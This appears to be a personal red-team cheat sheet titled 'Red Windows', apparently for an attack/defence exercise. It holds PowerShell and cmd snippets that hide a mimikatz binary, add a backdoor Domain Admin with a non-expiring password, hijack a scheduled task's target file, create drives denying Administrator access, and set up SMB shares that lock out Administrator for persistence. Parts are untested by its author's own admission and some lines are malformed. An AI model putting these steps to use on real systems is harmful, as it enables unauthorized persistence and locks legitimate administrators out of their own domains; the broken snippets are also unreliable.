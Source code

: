 # Red Windows

Website 
`Ctrl + Shift + R` - cache refresh pages to ensure last game does not misform as to current context

Hiding binaries
```powershll
attrib +h mimikatz.exe
```

Add a Domain Admin
```powershell
# Check the password requirements before!
dsadd user "CN=John,CN=Users,DC=object,DC=local" -samid John -pwd johnspassword123! -display "John" -pwdneverexpires yes -memberof "DC=Domain Admins,CN=Users,DC=object,DC=local"
```

Assimilate a schduledtask
```powershell
# Find task and its excution path to hijack
get-scheduledtask | findstr /v Disabled
$task = get-scheduledtask -taskname <name>
$task | fl
$task.Actions.Execute | fl
$content = Get-Content -Path 'C:\file'
$newContent = $content -replace '<adversary-ip>', '<your-ip>'
$newContent | Set-Content -Path 'C:\file'
```


I NEED TO TEST THIS:

You may want to create all the secondary drives or all the drives possible to block others from using any of the drives. 
```powershell
$persistenceUser = "User1"

for ($i=0; $i -lt 26; $i++) {
  $driveLetter = [char]($i + 65) + ":"
  if (!(Get-Volume | Where-Object DriveLetter -eq $driveLetter)) {
    $newDisk = New-VirtualDisk -DriveLetter $driveLetter -Size 25MB
    $acl = Get-Acl -Path $newDisk.DriveLetter
    $persistenceUserRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $persistenceUserAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule($persistenceUser, $persistenceUserRights, "Allow")
    $acl.SetAccessRule($persistenceUserAccessRule)
    $otherUsersRights = [System.Security.AccessControl.FileSystemRights]"FullControl"
    $otherUsersAccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule("Administrator", $otherUsersRights, "Deny")
    $acl.SetAccessRule($otherUsersAccessRule)
    Set-Acl -Path $newDisk.DriveLetter -AclObject $acl
  }
}

```

Create a file share - the longer the path for copy and paste and shell nightmares
```powershell
#

# -ConcurrentUserLimit to prevent hacky breaking into destroy the share 

New-SmbShare -Name MyFileShare -Path $goodPath -FullAccess $persistenceUser -EncryptData $True -ConcurrentUserLimit 1 -ContinuouslyAvailable -Temporary
# You can set up an inital connection to a remote host with output from
#  New-CimSession Get-CimSession
-Cim-Session 


# Add to known adversary accounts -NoAccess Administrator

$Parameters = @{
    Name = '$Name'
    Path = $goodPath
    FullAccess = 'Contoso\Administrator', 'Contoso\Contoso-HV1$'
    EncryptData = $True
    Temporary = $True
    ContinuouslyAvailable = $True
    NoAccess = 'Administrator' # Prevent access administrator - create persistence user to access
}
New-SmbShare @Parameters
```